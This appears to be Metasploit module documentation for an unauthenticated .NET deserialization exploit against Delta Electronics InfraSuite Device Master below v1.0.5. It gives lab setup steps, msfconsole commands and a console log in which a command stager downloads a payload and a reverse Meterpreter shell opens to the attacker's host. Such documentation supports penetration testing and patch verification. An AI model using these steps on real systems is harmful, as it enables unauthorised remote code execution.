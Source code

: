 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability in the `Device-Gateway-Status` process which
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method without appropriate validation,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer from https://archive.org/details/infra-suite-device-master-00.00.01ax-64
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `Next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click `Finish`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf6 > use exploit/windows/misc/delta_electronics_infrasuite_deserialization
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > set rhost 192.168.140.187
rhost => 192.168.140.187
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > options

Module options (exploit/windows/misc/delta_electronics_infrasuite_deserialization):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   INFRASUITE_PORT  80               yes       The port on which the InfraSuite Manager is listening
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port]
                                               [...]
   RHOSTS           192.168.140.187  yes       The target host(s), see https://docs.metasploit.com/doc
                                               s/using-metasploit/basics/using-metasploit.html
   RPORT            10100            yes       The target port (UDP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly g
                                               enerated)
   TARGETURI        /                yes       The base path to the InfraSuite Manager
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be
                                       an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper



View the full module info with the info, or info -d command.


msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
